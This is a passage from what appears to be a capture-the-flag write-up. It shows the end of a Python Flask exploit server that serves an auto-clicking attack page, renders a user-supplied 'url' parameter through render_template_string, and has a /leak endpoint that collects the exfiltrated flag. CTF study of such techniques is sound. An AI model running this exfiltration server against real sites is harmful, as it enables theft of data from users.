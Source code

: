 ```python
                tickCount = 0;
                return oldTickCount;
            }
        })();
        
        setTimeout(function () {
            var testButton = document.getElementById('testButton');
            testButton.click();
        }, 1000);
   
    </script>
</body>
</html>
'''

@app.route('/')
def index():
    return render_template_string(ex_html, CHALLENGE_URL=URL,CHARSET=CHARSET)

@app.route('/poc')
def poc():
    args = request.args.get('url')
    return render_template_string(poc_html, url=args, CHALLENGE_URL=URL,CHARSET=CHARSET)

@app.route('/leak')
def leak():
    flag = request.args.get('flag')
    if flag[-1] == '}':
        print(flag)
    return ""

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=1337)

```
Running this locally leaks the flag. 

![image](https://github.com/ixSly/CTFs/assets/32583633/dcaabc94-65eb-49ac-b32d-f1bb37c27cfa)


